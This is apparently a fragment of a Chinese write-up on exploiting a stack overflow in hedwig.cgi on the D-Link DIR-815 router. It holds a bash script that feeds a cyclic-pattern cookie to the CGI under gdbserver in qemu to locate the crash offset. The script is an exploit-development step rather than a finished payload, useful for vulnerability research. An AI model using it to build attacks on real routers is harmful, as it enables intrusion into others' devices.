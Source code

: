 ![image-20221022225442519](DIR815/image-20221022225442519.png)

后面还有个`sprintf`，其中的v4没有变过

![image-20221022230300494](DIR815/image-20221022230300494.png)



# EXP

有两种方式，一种是将写好的payload放到qemu执行，还有一种是直接发送http请求。

## qemu执行exp

其中的test就是gdb的cyclic生成的字符串

```sh
#!/bin/bash  
export CONTENT_TYPE="application/x-www-form-urlencoded"  
export HTTP_COOKIE="uid=`cat test`"  
export CONTENT_LENGTH=$(echo -n "$HTTP_COOKIE" | wc -c)  
export REQUEST_METHOD="POST"  
export REQUEST\_URI="/hedwig.cgi"  
echo "uid=1111"|./gdbserver.mipsle 192.168.111.131:6666 /htdocs/web/hedwig.cgi  
#echo "uid=1111"|/htdocs/web/hedwig.cgi
```
